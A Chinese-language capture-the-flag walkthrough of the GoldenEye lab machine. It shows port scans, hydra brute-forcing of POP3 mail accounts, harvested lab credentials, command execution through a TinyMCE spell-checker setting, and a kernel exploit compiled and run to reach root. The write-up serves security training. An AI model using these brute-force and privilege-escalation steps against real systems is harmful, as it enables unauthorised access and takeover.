

## 端口扫描

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo nmap -sT --min-rate 3000 -p- 10.10.190.1
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-03 14:06 CST
Nmap scan report for 10.10.190.1
Host is up (0.33s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE
25/tcp    open  smtp
80/tcp    open  http
55006/tcp open  unknown
55007/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 36.79 seconds

┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p25,80,55006,55007 10.10.190.1
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-03 14:16 CST
Nmap scan report for 10.10.190.1
Host is up (0.40s latency).

PORT      STATE SERVICE  VERSION
25/tcp    open  smtp     Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2018-04-24T03:22:34
|_Not valid after:  2028-04-21T03:22:34
|_ssl-date: TLS randomness does not represent time
80/tcp    open  http     Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: GoldenEye Primary Admin Server
55006/tcp open  ssl/pop3 Dovecot pop3d
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-04-24T03:23:52
|_Not valid after:  2028-04-23T03:23:52
|_ssl-date: TLS randomness does not represent time
55007/tcp open  pop3     Dovecot pop3d
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-04-24T03:23:52
|_Not valid after:  2028-04-23T03:23:52
|_ssl-date: TLS randomness does not represent time
|_pop3-capabilities: CAPA USER UIDL STLS AUTH-RESP-CODE TOP SASL(PLAIN) RESP-CODES PIPELINING
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.4 (96%), Linux 3.10 - 3.13 (96%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Sony Android TV (Android 5.0) (93%), Android 5.0 - 6.0.1 (Linux 3.4) (93%), Linux 3.12 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
```

## web渗透

nikto能跑几个目录出来


没什么信息，但是看到有这么几个用户
根据首页提示，有一个/sev-home目录



得到用户名及密码
先试一下吧
Boris/InvincibleHack3r
登录到/sev-home页面失败
hydra爆了一下pop3也不行
结果Boris要小写`boris/InvincibleHack3r`就可以了

得到如上信息
这里的信息其实偶知道了
那么boris作为一个用户名，就可以拿去爆破一下pop3
使用默认密码InvincibleHack3r登录失败
开始hydra爆破
```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo hydra -L users -P /usr/share/wordlists/fasttrack.txt -f  -s 55007 10.10.158.21 pop3
[55007][pop3] host: 10.10.158.21   login: boris   password: secret1!
```
得到用户及密码
login: boris   password: secret1!

成功登录，看下邮件
```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ nc -vn 10.10.158.21 55007
(UNKNOWN) [10.10.158.21] 55007 (?) open
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASS secret1!
+OK Logged in.
LIST
+OK 3 messages:
1 544
2 373
3 921
.
RETR 1
+OK 544 octets
Return-Path: <root@127.0.0.1.goldeneye>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id D9E47454B1
        for <boris>; Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
Message-Id: <20180425022326.D9E47454B1@ubuntu>
Date: Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
From: root@127.0.0.1.goldeneye

Boris, this is admin. You can electronically communicate to co-workers and students here. I'm not going to scan emails for security risks because I trust you and the other admins here.
.
RETR 2
+OK 373 octets
Return-Path: <natalya@ubuntu>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
        by ubuntu (Postfix) with ESMTP id C3F2B454B1
        for <boris>; Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
Message-Id: <20180425024249.C3F2B454B1@ubuntu>
Date: Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
From: natalya@ubuntu

Boris, I can break your codes!
.
RETR 3
+OK 921 octets
Return-Path: <alec@janus.boss>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from janus (localhost [127.0.0.1])
        by ubuntu (Postfix) with ESMTP id 4B9F4454B1
        for <boris>; Wed, 22 Apr 1995 19:51:48 -0700 (PDT)
Message-Id: <20180425025235.4B9F4454B1@ubuntu>
Date: Wed, 22 Apr 1995 19:51:48 -0700 (PDT)
From: alec@janus.boss

Boris,

Your cooperation with our syndicate will pay off big. Attached are the final access codes for GoldenEye. Place them in a hidden file within the root directory of this server then remove from this email. There can only be one set of these acces codes, and we need to secure them for the final execution. If they are retrieved and captured our plan will crash and burn!

Once Xenia gets access to the training site and becomes familiar with the GoldenEye Terminal codes we will push to our final stages....

PS - Keep security tight or we will be compromised.

```

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo hydra -l natalya -P /usr/share/wordlists/fasttrack.txt -f  -s 55007 10.10.158.21 pop3
[55007][pop3] host: 10.10.158.21   login: natalya   password: bird
```
拿了信息再爆一个密码
login: natalya   password: bird

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ nc -vn 10.10.114.10 55007
(UNKNOWN) [10.10.114.10] 55007 (?) open
+OK GoldenEye POP3 Electronic-Mail System
USER natalya
+OK
PASS bird
+OK Logged in.
LIST
+OK 2 messages:
1 631
2 1048
.
RETR 1
+OK 631 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from ok (localhost [127.0.0.1])
        by ubuntu (Postfix) with ESMTP id D5EDA454B1
        for <natalya>; Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
Message-Id: <20180425024542.D5EDA454B1@ubuntu>
Date: Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
From: root@ubuntu

Natalya, please you need to stop breaking boris' codes. Also, you are GNO supervisor for training. I will email you once a student is designated to you.

Also, be cautious of possible network breaches. We have intel that GoldenEye is being sought after by a crime syndicate named Janus.
.
RETR 2
+OK 1048 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from root (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 17C96454B1
        for <natalya>; Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
Message-Id: <20180425031956.17C96454B1@ubuntu>
Date: Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
From: root@ubuntu

Ok Natalyn I have a new student for you. As this is a new system please let me or boris know if you see any config issues, especially is it's related to security...even if it's not, just enter it in under the guise of "security"...it'll get the change order escalated without much hassle :)

Ok, user creds are:

username: xenia
password: RCP90rulez!

Boris verified her as a valid contractor so just create the account ok?

And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
**Make sure to edit your host file since you usually work remote off-network....

Since you're a Linux user just point this servers IP to severnaya-station.com in /etc/hosts.
```

记录一下xenia的信息

username: xenia
password: RCP90rulez!

他让绑定一下hosts文件
那就绑定一下看看


看到了后台信息
有封邮件可以发现，里面记录了一个新的用户doak

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo hydra -l doak -P /usr/share/wordlists/fasttrack.txt -f  -s 55007 10.10.114.10 pop3
[55007][pop3] host: 10.10.114.10   login: doak   password: goat
```
得到新用户信息了
这个靶机用户太多了。。

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ nc -vn 10.10.114.10 55007
(UNKNOWN) [10.10.114.10] 55007 (?) open
+OK GoldenEye POP3 Electronic-Mail System
USER doak
+OK
PASS goat
+OK Logged in.
LIST
+OK 1 messages:
1 606
.
RETR 1
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 97DC24549D
        for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
From: doak@ubuntu

James,
If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

username: dr_doak
password: 4England!
```

得到用户的账号及密码了
那再登录一下？
该用户下找到了一个秘密文件


得到一个图片的目录位置
下载下来直接exif就可以

xWinter1995x!
得到一个不知道干啥的信息
结果居然是admin的账号密码
admin/xWinter1995x!


找到可以命令执行的地方

在TinyMCE HTML editor处将Google spell改成PSpellShell

Google Spell是谷歌提供的拼写检查服务，可以用于检查和纠正文本中的拼写错误。它通常用于在网页表单、文档编辑器等应用中提供实时的拼写检查功能。
PSpellShell是一个基于Unix系统的命令行拼写检查工具，它使用了GNU Aspell（或者其他拼写检查引擎）来执行拼写检查任务。它允许用户在终端中输入文本并进行拼写检查，以及纠正拼写错误。
PSpellShell为命令执行提供了环境

那么在使用编辑器并且使用纠正功能时就会反弹一个shell回来


## 提权

这里直接用的内核提权39292
但是有个要注意的点
靶机没有gcc环境
要使用cc编译
所以直接下载下来的37292.c要改一点地方

```bash
www-data@ubuntu:/tmp$ cc 37292.c -o test
cc 37292.c -o test
37292.c:94:1: warning: control may reach end of non-void function [-Wreturn-type]
}
^
37292.c:106:12: warning: implicit declaration of function 'unshare' is invalid in C99 [-Wimplicit-function-declaration]
        if(unshare(CLONE_NEWUSER) != 0)
           ^
37292.c:111:17: warning: implicit declaration of function 'clone' is invalid in C99 [-Wimplicit-function-declaration]
                clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
                ^
37292.c:117:13: warning: implicit declaration of function 'waitpid' is invalid in C99 [-Wimplicit-function-declaration]
            waitpid(pid, &status, 0);
            ^
37292.c:127:5: warning: implicit declaration of function 'wait' is invalid in C99 [-Wimplicit-function-declaration]
    wait(NULL);
    ^
5 warnings generated.
www-data@ubuntu:/tmp$ chmod +x test
chmod +x test
www-data@ubuntu:/tmp$ ./test
./test
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
whoami
root
# cd /root
cd /root
# ls -la
ls -la
total 44
drwx------  3 root root 4096 Apr 29  2018 .
drwxr-xr-x 22 root root 4096 Apr 24  2018 ..
-rw-r--r--  1 root root   19 May  3  2018 .bash_history
-rw-r--r--  1 root root 3106 Feb 19  2014 .bashrc
drwx------  2 root root 4096 Apr 28  2018 .cache
-rw-------  1 root root  144 Apr 29  2018 .flag.txt
-rw-r--r--  1 root root  140 Feb 19  2014 .profile
-rw-------  1 root root 1024 Apr 23  2018 .rnd
-rw-------  1 root root 8296 Apr 29  2018 .viminfo
# cat .flag.txt
cat .flag.txt
Alec told me to place the codes here:

568628e0d993b1973adc718237da6e93

If you captured this make sure to go here.....
/006-final/xvf7-flag/

```